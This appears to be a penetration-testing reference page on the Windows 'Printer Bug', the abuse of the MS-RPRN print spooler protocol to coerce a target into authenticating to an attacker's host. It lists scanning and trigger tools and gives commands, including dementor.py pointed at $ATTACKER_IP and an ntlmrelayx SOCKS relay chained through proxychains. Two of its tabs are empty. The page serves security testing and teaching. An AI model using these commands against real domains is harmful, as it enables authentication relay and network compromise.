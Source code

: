 # Printer Bug \(MS-RPRN abuse\)

MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments.

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash

```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 MS-RPRN
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it should still possible to relay an NTLM authentication and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

